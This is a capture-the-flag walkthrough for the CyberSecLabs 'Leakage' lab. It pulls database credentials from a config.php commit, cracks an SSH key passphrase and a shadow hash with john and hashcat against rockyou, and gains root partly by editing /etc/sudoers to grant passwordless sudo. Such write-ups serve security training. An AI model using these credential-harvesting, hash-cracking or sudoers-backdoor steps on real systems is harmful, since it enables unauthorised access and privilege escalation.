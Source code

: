 # CyberSecLabs: Leakage


http://172.31.1.6/jonathan/CMS/-/commit/e2e3115dd0ea56b0b6dd8f919b258fc1b849776e

config.php commit:

```
define('URL_ADMIN',PROTOCOL.'doorgets.prod:8888/');
define('URL_USER',PROTOCOL.'doorgets.prod:8888/dg-user/');
define('SQL_HOST','localhost');
define('SQL_LOGIN','root');
define('SQL_PWD','root');
define('SQL_LOGIN','jonathan');
define('SQL_PWD','rPHAKWAgMZtjr9at');
define('SQL_DB','doorgets-prod01');
define('SQL_VERSION','5.5.42');
require_once CONFIGURATION.'includes.php';
```
Login with this cred:
```
jonathan:rPHAKWAgMZtjr9at
```

After logging in visit ```http://172.31.1.6/jonathan/security```



```zsh
 python /usr/share/john/ssh2john.py id_rsa  > idrsa
```
```zsh
john idrsa --wordlist /usr/share/wordlists/rockyou.txt
```
```
Press 'q' or Ctrl-C to abort, almost any other key for status                                                      
scooby           (id_rsa) 
```

Run winpeas
/bin/nano -- red and yellow. Hence 99 percent PE vector.

```zsh
hashcat -m 1800 hash.txt /usr/share/wordlists/rockyou.txt --force
```
Cracked hash
```
$6$yMsg6cpK$q52od6Zj/FhqmmsuVZ7pKvGJ2o2R/kieZ3SQ/QWWbdn2eVFCTewYvjKBd2P4jfsh9IYwelJoPevGpQCsA2NT61:chocolate
```

su root
enter pass

*Alternate way*

Or you can edit ```/etc/sudoers/```

```
# User privilege specification
root    ALL=(ALL:ALL) ALL
jonathan ALL=(ALL:ALL) NOPASSWD: ALL
# Members of the admin group may gain root privileges
%admin ALL=(ALL) NOPASSWD: ALL

# Allow members of group sudo to execute any command
%sudo   ALL=(ALL:ALL) NOPASSWD: ALL
```
exit the ssh, relogin and just do ```sudo /bin/bash```




